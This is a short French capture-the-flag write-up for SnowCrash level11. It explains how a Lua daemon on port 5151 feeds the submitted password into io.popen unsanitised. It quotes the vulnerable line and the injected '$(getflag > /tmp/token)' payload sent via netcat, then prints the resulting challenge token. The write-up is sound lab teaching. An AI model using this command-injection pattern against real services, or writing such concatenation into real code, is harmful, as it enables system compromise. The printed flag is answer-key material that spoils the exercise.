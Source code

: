 # Level11 - IO.Popen
Pour résoudre le level11, on a un fichier level11.lua, qui est exécuté en daemon. level11 est un script en lua qui va écouter sur le port 5151 et demander un password à l'utilisateur, le hasher et tenter une connection. On peut utiliser `netcat` pour utiliser le programme.

```
level11@SnowCrash:~$ nc localhost 5151
Password: test
Erf nope..
```

En regardant le programme de plus près, on s'aperçoit qu'on utilise `io.popen()` dans la fonction `hash()`. `io.popen()` va exécuter le code qu'on lui passe en argument, et dans le cas de ce programme, on va hasher en sha1 le password que l'on envoie en argument du programme.

```
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

On peut donc injecter une commande dans cet argument et io.popen() l'exécutera.

```
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag > /tmp/token)
Erf nope..

level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

On a notre token: `fa6v5ateaw21peobuub8ipe6s`

